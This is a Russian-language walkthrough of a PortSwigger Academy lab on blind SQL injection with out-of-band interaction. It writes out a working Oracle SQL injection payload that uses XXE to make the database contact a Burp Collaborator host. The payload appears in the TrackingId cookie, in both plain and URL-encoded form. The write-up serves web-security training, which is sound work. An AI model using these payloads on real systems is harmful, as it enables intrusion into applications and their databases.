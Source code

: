 Перейдем на корневую страницу и найдем запрос содержащий `Cookie`. Найдем данный запрос в `Proxy` -> `HTTP history` и отправим его в `Repeater` 
```
GET / 
Cookie: TrackingId=4SgbEzlQsHf6v9lR;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/12.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction/pics%20for%20walktrough/1.png)
По заданию нам необходимо сделать DNS запрос на DGA-домен бурпа со стороны базы данных
Перейдем в раздел `Collaborator` и сгенерируем наш DGA-домен
```
0klkfvp6f9v8uctwnzajzbcnue05ovck.oastify.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/12.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction/pics%20for%20walktrough/2.png)
Воспользуемся читлистом для решения лабораторных работ по SQL инъекциям
```
https://portswigger.net/web-security/sql-injection/cheat-sheet
```
Тут нам необходим следующий пэйлоад
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
На прошлом этапе мы создали страницу с DGA-доменом - `0klkfvp6f9v8uctwnzajzbcnue05ovck.oastify.com` подставим ее в запрос
```
Cookie: TrackingId=4SgbEzlQsHf6v9lR' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://0klkfvp6f9v8uctwnzajzbcnue05ovck.oastify.com/"> %remote;]>'),'/l') FROM dual)--; 
```
Или же в URL-кодировке выгдядит как
```
Cookie: TrackingId=4SgbEzlQsHf6v9lR' || (SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//0klkfvp6f9v8uctwnzajzbcnue05ovck.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/12.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction/pics%20for%20walktrough/3.png)
Вернемся в раздел `Collaborator` и видим, что на него действительно пришел DNS запрос от уязвимого ресурса
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/12.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction/pics%20for%20walktrough/4.png)
Обновим главную страницу и увидим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/12.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction/pics%20for%20walktrough/5.png)
